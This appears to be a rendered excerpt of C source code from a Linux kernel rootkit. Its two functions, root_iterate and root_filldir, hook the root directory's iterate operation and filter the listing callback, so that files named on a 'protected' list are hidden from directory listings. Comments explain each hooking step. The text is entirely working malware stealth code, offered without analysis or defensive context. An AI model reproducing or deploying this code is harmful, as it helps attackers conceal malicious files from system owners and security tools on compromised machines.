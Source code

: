 \documentclass[11pt]{article}
\begin{document}
Where \texttt{root_iterate} is defined as:
\begin{verbatim}
/**
  * Replacement function for "/" iterate, which is the successor of readdir for
  * kernels >3.11!
  *
  * Invokes our filldir function to manipulate results returned. Afterwards
  * unpatches iterate and calls it to obtain the real results, which it returns
  * after re-applying our patch to iterate. (So we can continue manipulating
  * filldir). In short it:
  *     1). Calls our own filldir to manipulate results.
  *     2). Unpatches iterate, calls it and saves its return value to maintain
  *         functionality.
  *     3). Reapplies patch to iterate so we can intercept next call. Goto 1.
  *
  * @return Normal iterate values, unless we detect a protected name, in which
  * case we return 0.
  */
int root_iterate(struct file *file, struct dir_context *context) {
    original_root_filldir = context->actor;
    *((filldir_t*)&context->actor) =  root_filldir;

    int (*original_iterate)(struct file *, struct dir_context *);
    original_iterate = asm_hook_unpatch(root_iterate);
    int ret = original_iterate(file, context);
    asm_hook_patch(root_iterate);

    return ret;
}

/**
  * Replacement function for "/" filldir. Checks to see whether any file names
  * from our global file_list are within the buffer. If so, we return 0 to
  * pretend the file does not exist. Otherwise we just pass the arguments to
  * the original filldir function and return its results to preserve
  * functionality.
  *
  * @return 0 if we detect a 'protected' file name, otherwise returns 'normal'
  * filldir results with the same parameters.
  */
static int root_filldir(void * context, const char *name, int namelen, loff_t
                        offset, u64 ino, unsigned int d_type) {
    struct file_entry *f;

    // If the buffer contains any names within our list, return 0.
    list_for_each_entry(f, &file_list, list) {
        if (strcmp(name, f->name) == 0) {
            return 0;
        }
    }

    // Otherwise return 'normal' results.
    return original_root_filldir(context, name, namelen, offset, ino, d_type);
}
\end{verbatim} 

\end{document}
